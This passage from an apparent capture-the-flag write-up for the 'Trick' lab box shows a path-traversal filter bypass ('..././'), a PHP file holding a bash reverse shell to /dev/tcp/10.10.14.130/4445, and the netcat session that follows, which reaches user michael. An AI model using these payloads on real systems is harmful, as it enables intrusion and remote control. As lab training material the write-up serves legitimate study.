 ```bash
}
```

This code includes any file passed as the `page` parameter. It removes `../` from it in an attempt to prevent path traversal. But that's easy to bypass. I just needed to insert a second `../` inside any instance I needed in my path.

```php
php > echo str_replace('../', '', '../etc/passwd');
etc/passwd
php > echo str_replace('../', '', '....//etc/passwd');
../etc/passwd
```

I create a second file in `/tmp` to launch a reverse shell on a different port.

```bash
www-data@trick:~/market$ cat /tmp/rce2.php
<?php
`bash -c 'bash -i >& /dev/tcp/10.10.14.130/4445 0>&1'`;
```

I added the `preprod-marketing.trick.htb` domain to my hosts file and used the LFI to load the new file by navigating to [http://preprod-marketing.trick.htb/?page=..././..././..././tmp/rce2.php](http://preprod-marketing.trick.htb/?page=..././..././..././tmp/rce2.php).

This got me a reverse shell as michael, and the user flag.

```bash
$ nc -klvnp 4445
Listening on 0.0.0.0 4445
Connection received on 10.129.115.24 53350
bash: cannot set terminal process group (726): Inappropriate ioctl for device
bash: no job control in this shell

michael@trick:/var/www/market$ whoami
whoami
michael

michael@trick:/var/www/market$ cd ~
cd ~

michael@trick:~$ ls
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
user.txt

michael@trick:~$ cat user.txt
cat user.txt
REDACTED
```

